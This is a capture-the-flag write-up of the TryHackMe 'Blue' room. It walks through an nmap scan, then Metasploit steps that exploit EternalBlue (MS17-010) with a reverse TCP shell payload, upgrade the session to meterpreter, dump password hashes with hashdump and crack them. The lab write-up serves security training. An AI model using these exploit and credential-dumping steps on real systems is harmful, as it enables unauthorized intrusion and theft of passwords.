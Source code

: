 # BLUE
> 4lch3my | March 27, 2023
-------------------
#### This is a machine that allows you to practice web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/blue)

## Tasks
##### 1. Recon
  Scan and learn what exploit this machine is vulnerable to.

<br>

To start, I use [nmap] which is the default option on the personal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP`
The `-sC` flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The `-sV` probes all open ports it finds to determine if we can get the service/version information. `-A` outputs in aggressive mode, so we can follow along with the commands and enumeration.
In our NMAP results, we get:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 18:10 UTC
Nmap scan report for MACHINE_IP (MACHINE_IP)
Host is up (0.00046s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-03-26T18:11:44+00:00
|_ssl-date: 2023-03-26T18:11:59+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-03-25T18:04:55
|_Not valid after:  2023-09-24T18:04:55
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:7D:FF:18:E3:75 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows .
Nmap done: 1 IP address (1 host up) scanned in 86.79 seconds
```

We can see multiple ports open, but the first thing what my eyes are drawn to is port `445` where a `Windows 7` service is running - `microsoft‑ds`. After a quick google around for `microsoft‑ds`, UI realized this is part of the famous `MS17-010` exploit titled `EternalBlue`. This is a vulnerability posted by Microsoft back in 2017 for vulnerable SMB v1 remote code execution issues. Now that we have what the machine is vulnerable to, time to actually exploit it

##### 2. Gain Access

Right away, let's start `metasploit` a common and very powerful vulnerability exploiter tool. This can be started with the `msfconsole` command. 

<br>

Now, we can search for the `EternalBlue` vulnerability to see if there is a built-in module for this in the tool. This can be run with: `search eternalblue`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_eternalblue.png?raw=true)

To select it, we can run: `use exploit/windows/smb/ms17_010_eternalblue`

And we can see what needs to be changed inside the module with the `options` command:

msf exploit(ms17_010_eternalblue) > options

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_options.png?raw=true)

As we can see, we need to set the `RHOSTS` option, so the exploit can run automatically. We can do this by simply adding:

``` 
set RHOSTS MACHINE_IP
``` 

Also, as requested by the room owner, we will set the payload to `reverese_tcp`:

``` 
set payload windows/x64/shell/reverse_tcp
``` 

Time to run the exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_run.png?raw=true)                                                                              

And there we go, we have access to the machine. On to Task 3
                                                                                              

##### 3. Escalate

The previously gained shell can now be background with the `CTRL + Z` command, so we can continue down the rabbit hole.

<br>

And now we will convert our shell to a `meterpreter shell` right inside `metasploit`! How exiting!

Run the command `search shell_to_meterpreter`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mmfs6_shell_to_met.png?raw=true)

Then `use post/multi/manage/shell_to_meterpreter` & list the sessions with `sessions`:

<br>

Switch:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions.png?raw=true)

And listing sessions: 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions2.png?raw=true)

Then `show options`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_show_options.png?raw=true)

Then `set SESSION 1` & run this upgraded exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade.png?raw=true)

Verify that it was successful:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions.png?raw=true)

And the last step, to actually switch to this upgraded `meterpreter` shell:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions_verify.png?raw=true)

If you want to switch to a PowerShell/Windows CMD shell, you can do by simple running: `shell`.

<br>

WOW! That was a mouthful of information! We can switch to the service `conhost.exe` OR `cmd.exe` on the machine for the verification as well

##### 4. Cracking

After migration to one of the following services `conhost.exe` OR `cmd.exe` in task 3, we can now dump the passwords using the `hashdump` command:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs5_hash.png?raw=true)

To crack our user's password, we can use a site like [THIS ONE](https://crackstation.net/) to do the task for us automatically.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/pasword.png?raw=true)

##### 5. Find flags!

Let's run the command `search -f flag*txt` in the meterpreter session to list all files what are text files `.txt` and have the word `flag` in them:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/flags.PNG?raw=true)

And as you can see, we have found all 3 flags located on this machine.

#### Thank you for checking out my write-up about the THM room: Blue! If you are interested in other write-ups of mine or interested in some of my coding work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my